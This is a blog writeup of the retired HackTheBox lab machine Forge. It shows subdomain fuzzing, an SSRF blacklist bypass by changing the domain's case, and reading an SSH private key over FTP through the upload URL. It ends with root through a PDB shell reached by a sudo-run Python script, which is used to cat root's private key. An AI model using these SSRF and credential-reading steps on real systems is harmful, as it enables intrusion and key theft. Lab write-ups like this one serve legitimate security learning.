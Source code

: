 Title:HTB: Forge
Date: 01-21-2022 17:25
category:security
tags:security, boot2root, HTB, SSRF, LFI
meta:security, boot2root, HTB, SSRF, LFI

<img class="align-left" src="/media/2022.01/forge_card.png" alt="Forge Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Forge](https://www.hackthebox.eu/home/machines/profile/376) publish on
September 11, 2021 by
[NoobHacker9999](https://www.hackthebox.eu/home/users/profile/393721).
This box is rated as a medium machine but could be qualified as an easy medium
:). It implies a SSRF and an LFI as well as some Python and a
[PDB](https://docs.python.org/3/library/pdb.html).

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Friday Sep 17 04:59:56 2021 as: nmap -sSV -p- -oN notes.md -A 10.129.220.75
    Nmap scan report for 10.129.220.75
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE    SERVICE VERSION
    21/tcp filtered ftp
    22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))

## Website

The website is a gallery that allow to upload an image either from the
filesystem or from an URL.

We use [wfuzz](https://github.com/xmendez/wfuzz) in addition to the
[subdomain secList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)
to discover that the domain admin.forge.htb exist.

    :::text
    └─$ wfuzz -c -w subdomains-top1million-5000.txt --sc 200 -H "HOST:FUZZ.forge.htb" http://forge.htb
    /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://forge.htb/
    Total requests: 4989

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000024:   200        1 L      4 W        27 Ch       "admin - admin"

We cannot access the admin interface as some IP filtering is in place.
We try to includ the page by uploading it as an image using the URL but it
failes with an error message: "URL contains a blacklisted address!"

We try the same inclusiion by using upper case on the "FORGE" domain and got the
page http://admin.FORGE.htb

    :::html
    <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    </html>

We look at the `announcements` page:

    :::html
    <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
    <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
    <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>


We try to load the FTP page using the disclosed credentials
`http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/`
We got two files `user.txt` and `snap`.

We take a look at the `.ssh/id_rsa` file (worst case scenario it does not
exist) using `http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/.ssh/id_rsa`
and got the RSA private key. We can now connect as `user` using SSH and grab the
user flag.

    :::text
    └─$ ssh user@forge.htb -i id_rsa
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    user@forge:~$ cat user.txt
    4a8aed62cdd2fca87ce185b780ee3e89

# Root

We look at our privileges (`sudo -l`) and we see that we can run `/usr/bin/python3 /opt/remote-manage.py`
as `root` without password. Looking at the script it is a remote manager script
that will land us a [PDB](https://docs.python.org/3/library/pdb.html) if it got
a unrecognized input. So we launch the script, connect to it using another SSH
terminal and `nc`, then we just input a "q" that will not be recognize and get
a [PDB](https://docs.python.org/3/library/pdb.html) in our first shell allowing
us to load the `os` module and execute system commands as root using
`os.system([COMMAND])`.

    :::text
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:59816
    invalid literal for int() with base 10: b'q'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb) --KeyboardInterrupt--
    (Pdb) import os
    (Pdb) os.system('id')
    uid=0(root) gid=0(root) groups=0(root)
    0

We just grab the root SSH private key and connect on the box as `root` allowing us
to get the flag.

    :::text
    (Pdb) os.system('ls /root/.ssh')
    authorized_keys  id_rsa  id_rsa.pub
    0
    (Pdb) os.system('cat /root/.ssh/id_rsa')
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAusTE7uvvBLrfqDLv6I/+Xc9W/RVGA4eFPOowUNkHDZ4MTUm4cK4/
    DdTvY7o7bvSinEX26rWdG4eVY3qnBGSACl3VIGX80NsWgyZwWQT20Vj0q8gf674RB4LfB6
    i6Awm8cbm3105HxfQnqr4qr2oJEpyDVaF29zpaS+6y0Ogq7HcRkSyQyErBnGmlOYBcBvvh
    <SNIP>
    -----END OPENSSH PRIVATE KEY-----

    └─$ ssh forge.htb -l root -i id_rsa_root
    root@forge:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@forge:~# cat root.txt
    5a7c66fcccbc8a380f220f349e6eea95

# Wrapping up

This box was really easy for a medium one. The root part really easy. I
triggered it by mistake as "q" for quit is an old habit. Once you get the
subdomain the user part just requires to follow the dots. A great medium box for
beginners.

